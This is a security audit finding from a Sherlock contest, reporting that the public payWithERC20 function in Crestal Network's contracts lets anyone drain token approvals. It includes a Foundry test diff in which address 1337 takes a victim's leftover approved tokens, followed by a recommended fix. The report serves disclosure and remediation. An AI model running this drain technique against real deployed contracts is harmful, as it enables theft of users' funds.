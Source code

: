 Micro Taffy Shell

High

# payWithERC20 would be used to drain contracts token approvals

Users can pay with ERC20 tokens for the cost of create agent operation and update agent operation through `payWithERC20`.
https://github.com/sherlock-audit/2025-03-crestal-network/blob/main/crestal-omni-contracts/src/BlueprintCore.sol#L464
```solidity
if (cost > 0) {
                // payment to crestal wallet address with token
                payWithERC20(tokenAddress, cost, userAddress, feeCollectionWalletAddress);
            }
```
https://github.com/sherlock-audit/2025-03-crestal-network/blob/main/crestal-omni-contracts/src/Payment.sol#L25
```solidity
function payWithERC20(address erc20TokenAddress, uint256 amount, address fromAddress, address toAddress) public {
        // check from and to address
        require(fromAddress != toAddress, "Cannot transfer to self address");
        require(toAddress != address(0), "Invalid to address");
        require(amount > 0, "Amount must be greater than 0");
        IERC20 token = IERC20(erc20TokenAddress);
        token.safeTransferFrom(fromAddress, toAddress, amount);
    }
```
The issue is anyone can steal excess token approvals to the contract.
## Impact
Approvals to blueprint can be stolen.

## Proof of Concept
```diff
diff --git a/crestal-omni-contracts/test/BlueprintV5.t.sol b/crestal-omni-contracts/test/BlueprintV5.t.sol
index 38f65ba..693d948 100644
--- a/crestal-omni-contracts/test/BlueprintV5.t.sol
+++ b/crestal-omni-contracts/test/BlueprintV5.t.sol
@@ -60,28 +60,23 @@ contract BlueprintTest is Test {
         // set none zero cost for create agents, use any number greater than 0
         blueprint.setCreateAgentTokenCost(address(mockToken), validTokenAmount);
 
-        mockToken.mint(address(this), validTokenAmount);
+        mockToken.mint(address(this), validTokenAmount + 1e18);
 
         // Verify the mint
         uint256 balance = mockToken.balanceOf(address(this));
-        assertEq(balance, validTokenAmount, "sender does not have the correct token balance");
-
-        // check LogApproveEvent
-        vm.expectEmit(true, true, false, true);
-        emit MockERC20.LogApproval(address(this), address(blueprint), validTokenAmount);
-
+        
         // Approve the blueprint contract to spend tokens directly from the test contract
-        mockToken.approve(address(blueprint), validTokenAmount);
-
-        // check allowance after approve
-        uint256 allowance = mockToken.allowance(address(this), address(blueprint));
-        assertEq(allowance, validTokenAmount, "sender does not have the correct token allowance");
+        mockToken.approve(address(blueprint), type(uint256).max);//@audit-info common defi practice
 
         // try with different project id
         projectId = bytes32(0x2723a34e38d0f0aa09ce626f00aa23c0464b52c75516cf3203cc4c9afeaf2981);
         // create agent with token and non zero cost
         blueprint.createAgentWithToken(projectId, base64Proposal, workerAddress, serverURL, address(mockToken));
 
+        vm.prank(address(1337));
+        blueprint.payWithERC20(address(mockToken), mockToken.balanceOf(address(this)), address(this), address(1337));
+        assertEq(mockToken.balanceOf(address(1337)), 1e18);
+        
         // check balance after creation, it should be balance - cost
         balance = mockToken.balanceOf(address(this));
         assertEq(balance, 0, "signer does not have the correct token balance after creation");
```
## Recommendation
For gasless transfer where fromAddress is not `msg.sender` verify a signature of `fromAddress` to `toAddress`. 
